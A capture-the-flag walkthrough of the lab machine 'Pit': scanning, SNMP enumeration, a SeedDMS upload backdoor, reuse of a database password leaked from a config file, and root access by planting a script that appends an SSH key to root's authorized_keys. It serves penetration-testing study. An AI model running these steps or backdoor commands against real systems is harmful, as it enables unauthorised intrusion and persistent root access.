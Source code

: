 # Pit

- Target Machine: 10.10.10.241

## Enumeration

### nmap scan

```bash
Nmap scan report for 10.10.10.241
Host is up, received syn-ack (0.064s latency).
Scanned at 2021-09-13 10:36:14 CEST for 204s
Not shown: 980 filtered tcp ports (no-response), 17 filtered tcp ports (host-unreach)
PORT     STATE SERVICE         REASON  VERSION
22/tcp   open  ssh             syn-ack OpenSSH 8.0 (protocol 2.0)
| ssh-hostkey: 
|   3072 6f:c3:40:8f:69:50:69:5a:57:d7:9c:4e:7b:1b:94:96 (RSA)
|   ssh-rsa AAAA...
|   256 c2:6f:f8:ab:a1:20:83:d1:60:ab:cf:63:2d:c8:65:b7 (ECDSA)
| ecdsa-sha2-n....
|   256 6b:65:6c:a6:92:e5:cc:76:17:5a:2f:9a:e7:50:c3:50 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJmDbvdFwHALNAnJDXuRD6aO9yppoVnKbTLbUmn6CWUn
80/tcp   open  http            syn-ack nginx 1.14.1
|_http-server-header: nginx/1.14.1
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-title: Test Page for the Nginx HTTP Server on Red Hat Enterprise Linux
9090/tcp open  ssl/zeus-admin? syn-ack
| ssl-cert: Subject: commonName=dms-pit.htb/organizationName=4cd9329523184b0ea52ba0d20a1a6f92/countryName=US
| Subject Alternative Name: DNS:dms-pit.htb, DNS:localhost, IP Address:127.0.0.1
| Issuer: commonName=dms-pit.htb/...
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2020-04-16T23:29:12
| Not valid after:  2030-06-04T16:09:12
| MD5:   0146 4fba 4de8 5bef 0331 e57e 41b4 a8ae
| SHA-1: 29f2 edc3 7ae9 0c25 2a9d 3feb 3d90 bde6 dfd3 eee5
```

A normal nmap scan reveal a `nginx` server on port 80 and a `CentOS Web Console` hosted on port 9090, which also has the DNS alias of `dms-pit.htb`, which however redirects us to the ngnix 403 page.

Sadly, there isn't much we can do with the two found services, since their versions dont't seem to have common exploitable vulnerabilities. All we could do is bruteforce the CentOS login page, but that would be a waste of time.

## Second nmap scan

A full port scan reveals nothing else, so all that we have left is an UDP scan, which indeed reveals to be useful.

```
# Nmap 7.92SVN scan initiated Mon Sep 13 11:46:53 2021 as: nmap -sU -oA nmap/udp_scan -vv 10.10.10.241
Increasing send delay for 10.10.10.241 from 800 to 1000 due to 11 out of 23 dropped probes since last increase.
Nmap scan report for 10.10.10.241
Host is up, received echo-reply ttl 63 (0.045s latency).
Scanned at 2021-09-13 11:47:07 CEST for 997s
Not shown: 999 filtered udp ports (admin-prohibited)
PORT    STATE SERVICE REASON
161/udp open  snmp    udp-response ttl 63

Read data files from: /usr/local/bin/../share/nmap
# Nmap done at Mon Sep 13 12:03:45 2021 -- 1 IP address (1 host up) scanned in 1011.31 seconds
```

## snmpwalk scan

As we can see, there is a SNMP server hosted on port 161/udp. First, we need to add pit.htb on the /etc/hosts file, then we can run `snmpwalk -On -c public -r1 -v2c pit.htb 1 | tee snmpwalk/walk.log` to scan the service. This action will take a long time and a lot of the output in the file will be useless data. 
To filter it, we can use vscode replace function with regex enabled and remove the lines matching any of the following expressions: `[\.\d*]+ = OID: .0.0\n`, `[\.\d*]+ = INTEGER: \w+\(\d\)\n`, `[\.\d*]+ = ""\n`, `[\.\d*]+ = INTEGER: \d+\n`

Now that the output is way more readable, we can find some interesting data:

```log
.1.3.6.1.4.1.2021.9.1.2.1 = STRING: /
.1.3.6.1.4.1.2021.9.1.2.2 = STRING: /var/www/html/seeddms51x/seeddms
.1.3.6.1.4.1.2021.9.1.3.1 = STRING: /dev/mapper/cl-root
.1.3.6.1.4.1.2021.9.1.3.2 = STRING: /dev/mapper/cl-seeddms
    .
    .
    .
.1.3.6.1.4.1.8072.1.3.2.2.1.2.10.109.111.110.105.116.111.114.105.110.103 = STRING: /usr/bin/monitor
.1.3.6.1.4.1.8072.1.3.2.2.1.3.10.109.111.110.105.116.111.114.105.110.103 = STRING: 
.1.3.6.1.4.1.8072.1.3.2.2.1.4.10.109.111.110.105.116.111.114.105.110.103 = STRING: 
.1.3.6.1.4.1.8072.1.3.2.2.1.7.10.109.111.110.105.116.111.114.105.110.103 = INTEGER: run-on-read(1)
.1.3.6.1.4.1.8072.1.3.2.3.1.1.10.109.111.110.105.116.111.114.105.110.103 = STRING: Memory usage
.1.3.6.1.4.1.8072.1.3.2.3.1.2.10.109.111.110.105.116.111.114.105.110.103 = STRING: Memory usage
              total        used        free      shared  buff/cache   available
Mem:          3.8Gi       617Mi       2.8Gi       8.0Mi       435Mi       3.0Gi
Swap:         1.9Gi          0B       1.9Gi
Database status
OK - Connection to database successful.
System release info
CentOS Linux release 8.3.2011
SELinux Settings
user

                Labeling   MLS/       MLS/                          
SELinux User    Prefix     MCS Level  MCS Range                      SELinux Roles

guest_u         user       s0         s0                             guest_r
root            user       s0         s0-s0:c0.c1023                 staff_r sysadm_r system_r unconfined_r
staff_u         user       s0         s0-s0:c0.c1023                 staff_r sysadm_r unconfined_r
sysadm_u        user       s0         s0-s0:c0.c1023                 sysadm_r
system_u        user       s0         s0-s0:c0.c1023                 system_r unconfined_r
unconfined_u    user       s0         s0-s0:c0.c1023                 system_r unconfined_r
user_u          user       s0         s0                             user_r
xguest_u        user       s0         s0                             xguest_r
login

Login Name           SELinux User         MLS/MCS Range        Service

__default__          unconfined_u         s0-s0:c0.c1023       *
michelle             user_u               s0                   *
root                 unconfined_u         s0-s0:c0.c1023       *
```

As we can see, the target machine has some files in the `/var/www/html/seeddms51x/seeddms` folder. Also, we found an user named `michelle` and an interesting file in `/usr/bin/monitor` being called by the SNMP service with the flag __run on read__.

## Exploiting the SeedDMS service

Since the seeddms folder was found by the last scan, it means that it's publicly accessible. We can try to access using the found DNS alias (http://dms-pit.htb/seeddms51x/seeddms), getting redirected to a login page where we can login using `michelle:michelle` as credentials.

Searching on ExploitDB, we find out that this software had a [vulnerability](https://www.exploit-db.com/exploits/47022) where we can easily upload a file with our own custom made backdoor.
__ATTENTION__: while using this exploit, use `http://dms-pit.htb/seeddms51x/` as the base directory or you wont be able to run the backdoor.

After veryfing that we have reached RCE, we can use the BurpSuite repeater to easily run commands. However, we have limited actions that we're allowed to use.

Using cat, we `ls` and `cat`, we can output the contents of the file `../../../conf/settings.xml`, which contains the following XML line:

```xml
    <database dbDriver="mysql" dbHostname="localhost" dbDatabase="seeddms" dbUser="seeddms" dbPass="ied^ieY6xoquu" doNotCheckVersion="false">
    </database>
    <!-- smtpServer: SMTP Server hostname
       - smtpPort: SMTP Server port
       - smtpSendFrom: Send from
    -->    
```

We can now try to access the SQLite server using [Impacket's mssqlclient](https://github.com/SecureAuthCorp/impacket.git), but it doesn't seem to be able to respond.

Going back to the CentOS login screen, we can try to access with out new credentials.
`michelle:ied^ieY6xoquu` seems to do the trick. Once logged in, we can open the terminal page and find the flag in the home directory.

## Priviledge escalation

Taking a step back, we can search for the file in `/usr/bin/monitor` found in the SNMPwalk. 

```bash
[michelle@pit shm]$ ls -la  /usr/bin/monitor
-rwxr--r--. 1 root root 88 Apr 18  2020 /usr/bin/monitor

[michelle@pit shm]$ cat /usr/bin/monitor
#!/bin/bash

for script in /usr/local/monitoring/check*sh
do
    /bin/bash $script
done
[michelle@pit shm]$

[michelle@pit shm]$ cd /usr/local/monitoring

[michelle@pit monitoring]$ ls
ls: cannot open directory '.': Permission denied

[michelle@pit monitoring]$ touch test

[michelle@pit monitoring]$ 
```

As we can see, the monitor script runs every script mathcing the `check*.sh` wildcard in the directory `/usr/local/monitoring/`. However, it looks like we can't see this directory's contents but we can still create a file using `touch`. This means that we could simply run `echo {PAYLOAD} > check_exploit.sh` and then use again SNMPwalk to run the service, which will then execute our payload.

We could spawn a simple revshell, however it looks like once we run `cat /root/root.txt` we don't get an output, which means that probably we don't have read permissions but maybe we still have write persissions, meaning we could still inject our own SSH key into root's SSH authorized keys, enabling us to login as root.

```bash
# AS MICHELLE
[michelle@pit monitoring]$ echo "echo \"{YOUR_SSH_PUB_KEY}\" >> /root/.ssh/authorized_keys" > check_ssh_backdoor.sh

# ON YOUR MACHINE
[exyss@exyss .ssh]$ snmpwalk -c public -v 1 dms-pit.htb 1.3.6.1.4.1.8072.1.3.2.2
NET-SNMP-EXTEND-MIB::nsExtendCommand."monitoring" = STRING: /usr/bin/monitor
NET-SNMP-EXTEND-MIB::nsExtendArgs."monitoring" = STRING: 
NET-SNMP-EXTEND-MIB::nsExtendInput."monitoring" = STRING: 
NET-SNMP-EXTEND-MIB::nsExtendCacheTime."monitoring" = INTEGER: 5
NET-SNMP-EXTEND-MIB::nsExtendExecType."monitoring" = INTEGER: exec(1)
NET-SNMP-EXTEND-MIB::nsExtendRunType."monitoring" = INTEGER: run-on-read(1)
NET-SNMP-EXTEND-MIB::nsExtendStorage."monitoring" = INTEGER: permanent(4)
NET-SNMP-EXTEND-MIB::nsExtendStatus."monitoring" = INTEGER: active(1)

[exyss@exyss .ssh]$ ssh -i id_rsa root@10.10.10.241
Enter passphrase for key 'id_rsa': 
Web console: https://pit.htb:9090/

Last login: Mon Jul 26 06:58:15 2021
[root@pit ~]#
```
